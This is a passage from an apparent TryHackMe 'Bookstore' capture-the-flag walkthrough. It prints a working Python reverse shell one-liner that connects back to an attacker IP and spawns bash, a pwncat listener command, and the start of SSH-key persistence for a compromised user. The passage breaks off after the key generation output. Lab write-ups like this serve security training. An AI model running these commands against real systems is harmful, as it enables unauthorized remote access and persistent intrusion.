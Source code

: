 
https://www.revshells.com/ makes it easy to grab a python reverse shell

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.13.18.86",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
```

Starting an unbreakable pwncat listener

```bash
pwncat -l 443 --self-inject /bin/bash:10.13.18.86:443
```

Reverse shell is granted

![user](user-shell.png)

___

## Persistence 
Making an ssh key for Sid and setting up persistence

```bash
┌──(viorage㉿kali)-[~/Tryhackme/Bookstore]
└─$ ssh-keygen -f sid                                                                                                                                                                           1 ⨯
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in sid
Your public key has been saved in sid.pub
The key fingerprint is:
SHA256:p4PrpS8pw3BLwA32Ns2F/BGqu2bFpjYK7vSbssBsIGw viorage@kali
The key's randomart image is:
+---[RSA 3072]----+
|     . ...       |
|  o   o.o        |
| o + o.o .       |
|. o =.o .        |
|oE o.o  S .      |
|* . o.+. o       |
|o= =.=..+        |
|=o. %.o+ .       |
|.++Oo=+o.        |
+----[SHA256]-----+
```
